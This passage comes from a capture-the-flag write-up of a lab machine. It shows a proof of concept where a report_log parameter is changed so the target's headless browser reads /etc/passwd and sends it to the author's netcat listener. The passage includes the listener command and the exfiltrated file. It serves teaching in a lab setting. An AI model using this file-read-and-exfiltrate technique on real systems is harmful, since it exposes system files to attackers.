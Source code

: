    143,asda
    143,asdsadas
    143,asdasdasd
    143,sdffsd
    143,sad
    143,asdasd
    143,asdas
    143,asd
    143,asd
    

#### File Read POC

It’s reasonable to think that perhaps this is trying to open a file named
`report_19_07_2023.log`. I’ll update my payload to try to read a different
file. `/etc/passwd` is always a good place to start. I’ll simply update the
`report_log` parameter in the request, and the next time I submit the report,
`passwd` arrives at `nc`:

    
    
    oxdf@hacky$ nc -lvnp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.190 49876
    POST / HTTP/1.1
    Host: 10.10.14.6:9001
    Connection: keep-alive
    Content-Length: 2084
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: http://derailed.htb:3000
    Referer: http://derailed.htb:3000/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US
    
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:110::/nonexistent:/usr/sbin/nologin
    postfix:x:104:111::/var/spool/postfix:/usr/sbin/nologin
    _chrony:x:105:114:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
    _rpc:x:106:65534::/run/rpcbind:/usr/sbin/nologin
    proftpd:x:107:65534::/run/proftpd:/usr/sbin/nologin
    ftp:x:108:65534::/srv/ftp:/usr/sbin/nologin
    sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
    statd:x:110:65534::/var/lib/nfs:/usr/sbin/nologin